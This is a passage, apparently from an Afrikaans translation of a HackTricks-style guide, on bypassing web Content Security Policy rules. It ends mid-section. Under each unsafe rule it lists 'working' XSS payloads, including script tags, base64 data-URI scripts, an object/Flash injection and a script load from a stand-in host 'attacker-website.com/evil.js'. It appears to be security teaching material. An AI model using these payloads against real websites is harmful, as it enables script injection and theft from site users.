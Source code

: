 - `'strict-origin-when-cross-origin'`: Stuur volle URL's wanneer dieselfde oorsprong versoeke gemaak word, maar stuur slegs die oorsprong wanneer die versoek kruis-oorsprong is.
- `'unsafe-allow-redirects'`: Laat hulpbronne toe om gelaai te word wat onmiddellik na 'n ander hulpbron sal herlei. Nie aanbeveel nie, aangesien dit sekuriteit verzwak.

## Onveilige CSP-reëls

### 'unsafe-inline'
```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-inline';
```
Werksame payload: `"/><script>alert(1);</script>`

#### self + 'unsafe-inline' via Iframes

{{#ref}}
csp-bypass-self-+-unsafe-inline-with-iframes.md
{{#endref}}

### 'unsafe-eval'

> [!CAUTION]
> Dit werk nie, vir meer inligting [**kyk hierna**](https://github.com/HackTricks-wiki/hacktricks/issues/653).
```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-eval';
```
Werkende payload:
```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```
### strict-dynamic

As jy op een of ander manier 'n **toegelate JS-kode 'n nuwe skrip-tag** in die DOM met jou JS-kode kan maak, omdat 'n toegelate skrip dit skep, sal die **nuwe skrip-tag toegelaat word om uitgevoer te word**.

### Wildcard (\*)
```yaml
Content-Security-Policy: script-src 'self' https://google.com https: data *;
```
Werkende payload:
```markup
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```
### Gebrek aan object-src en default-src

> [!CAUTION] > **Dit lyk asof dit nie meer werk nie**
```yaml
Content-Security-Policy: script-src 'self' ;
```
Werkende payloads:
```markup
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```
### Lêeroplaai + 'self'
```yaml
Content-Security-Policy: script-src 'self';  object-src 'none' ;
```
As jy 'n JS-lêer kan oplaai, kan jy hierdie CSP omseil:
